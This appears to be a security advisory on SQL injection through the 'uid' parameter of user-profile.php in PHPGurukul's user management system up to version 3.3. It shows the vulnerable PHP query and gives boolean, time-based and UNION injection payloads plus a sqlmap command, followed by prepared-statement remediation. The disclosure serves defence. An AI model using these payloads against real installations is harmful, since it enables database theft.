

### 2. Multiple SQL Injection Vectors via `uid` GET Parameter in `user-profile.php` in User Registration & Login and User Management System With Admin Panel ≤ v3.3

---

## 👨‍💻 BUG Author:
**4m3rr0r**

---

## 📦 Product Information:

- **Vendor Homepage**: [https://phpgurukul.com](https://phpgurukul.com)
- **Software Link**: [User Registration & Login and User Management System With Admin Panel](https://phpgurukul.com/user-registration-login-and-user-management-system-with-admin-panel/)
- **Affected Version**: <= 3.3
- **Product Name**: User Registration & Login and User Management System With Admin Panel

---

## 🛠 Vulnerability Details

- **Vulnerability Type**: SQL Injection (CWE-89)
- **Affected File**: `loginsystem/admin/user-profile.php`
- **Vulnerable Parameter**: `uid` (GET)
- **Authentication Required**: ✅ Yes (Admin Session)
- **Impact**: Database Enumeration, Data Exfiltration, Possible Admin Account Hijack

---

## 🧬 Root Cause

User input from the `uid` GET parameter is directly embedded into an SQL query without validation or sanitization:

```php
$userid = $_GET['uid'];
$query = mysqli_query($con, "select * from users where id='$userid'");
```

---

## ⚠️ Impact

An authenticated attacker (admin) can exploit this vulnerability to:

- Read sensitive database information
- Dump user data including email, phone number, etc.
- Enumerate entire database structure
- Chain with other vulnerabilities for privilege escalation

---

## 📋 Description

The application fails to sanitize input in the `uid` parameter of `user-profile.php`, resulting in a classic **SQL Injection vulnerability**. Since this page is accessible after admin login, a malicious admin or attacker with admin session can exploit this flaw to gain full access to the application's database.

---

## 🔬 Proof of Concept

### 🔗 Vulnerable Endpoint

```http
GET /loginsystem/admin/user-profile.php?uid=1
```

### 💣 Example Payloads

#### Boolean-Based Injection
```
uid=1' AND 1=1-- -
```

#### Time-Based Blind
```
uid=1' AND SLEEP(5)-- -
```

#### UNION-Based
```
uid=1' UNION SELECT NULL, CONCAT(user(),0x3a,database()), NULL, NULL, NULL, NULL, NULL-- -
```

### ✅ sqlmap PoC

```bash
sqlmap -u "http://192.168.16.109/loginsystem/admin/user-profile.php?uid=1" --cookie="PHPSESSID=your_admin_cookie_here" --risk=3 --level=5 --batch --dbs
```



---

## 🛡 Suggested Remediation

Replace vulnerable query with **parameterized statements** (prepared statements):

```php
$userid = $_GET['uid'];
$stmt = $con->prepare("SELECT * FROM users WHERE id = ?");
$stmt->bind_param("i", $userid);
$stmt->execute();
$result = $stmt->get_result();
```

---

## 🔐 Security Recommendations

- Always use `prepared statements` for database queries
- Validate and sanitize all user input, especially GET/POST parameters
- Enable Web Application Firewall (WAF)
- Monitor admin activity logs for anomalies
- Apply least privilege to database user accounts

---

## 📚 References

- [https://owasp.org/www-community/attacks/SQL_Injection](https://owasp.org/www-community/attacks/SQL_Injection)
